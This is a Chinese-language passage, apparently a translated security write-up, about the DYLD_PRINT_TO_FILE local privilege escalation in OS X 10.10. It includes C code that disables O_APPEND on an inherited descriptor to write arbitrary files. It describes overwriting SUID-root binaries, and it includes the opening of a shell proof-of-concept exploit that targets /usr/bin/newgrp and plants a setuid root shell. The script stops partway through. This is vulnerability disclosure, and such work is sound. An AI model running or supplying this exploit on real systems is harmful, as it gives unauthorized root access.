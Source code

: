 到目前为止，我已示范将任意数据追加到文件系统的任意文件。确实挺糟糕的，但是到目前为止我们被O_APPEND 标志限制了。该标志阻碍我们覆写任意一个我们钟情的文件。这是存在的比所有人所相信还要小的问题，因为`O_APPEND`标志在文件描述符上可被进行`fcntl(F_SETFL)`系统调用的人关闭。如下c代码展示了如何将数据写入到任意文件。

```
int main(int argc, char **argv)
{
        int fd;
        char buffer[1024];

        /* disable O_APPEND */
        fcntl(3, F_SETFL, 0);
        lseek(3, 0, SEEK_SET);

        strcpy(buffer, "anything - anything - anything");

        write(3, &buffer, strlen(buffer));

```

Exploitation 3
--------------

当你可以在文件系统上将任意数据写到任意文件时，首先想到的显然是用自己的代码覆写任意SUID为root的二进制程序。可以在编写用于OS X系统调用的man页面上找到一些对你有帮助的信息。

使用该攻击来覆写SUID为root的二进制程序。但是你应该不再相信man页面的帮助信息，因为当你试图进行缓解后的Apple将不触发，日志文件被SUID为root的二进制程序打开，因此对文件系统的写操作将会信任通过超级用户执行的写操作并且SUID的位将不被清空。

完整的POC
------

如下代码为用于该安全问题的概念证明代码，其实用之前所讨论过的方法来为用户安装root shell，同时也会为了更容易地获得root权限而在目录`/usr/bin/boomsh`安装`root shell`。 请注意该段代码可能会危害系统，因为它会安装root shell。

```
#!/bin/sh
#
# Simple Proof of Concept Exploit for the DYLD_PRINT_TO_FILE
# local privilege escalation vulnerability in OS X 10.10 - 10.10.4
#
# (C) Copyright 2015 Stefan Esser <stefan.esser@sektioneins.de>
#
# Wait months for a fix from Apple or install the following KEXT as protection
# https://github.com/sektioneins/SUIDGuard
#
# Use at your own risk. This copies files around with root permissions,
# overwrites them and deletes them afterwards. Any glitch could corrupt your
# system. So you have been warned.

SUIDVICTIM=/usr/bin/newgrp

# why even try to prevent a race condition?
TARGET=`pwd`/tmpXXXXX

rm -rf $TARGET
mkdir $TARGET

cat << EOF > $TARGET/boomsh.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{
        setuid(0);
        setgid(0);
        system("/bin/bash -i");
        printf("done.\n");
```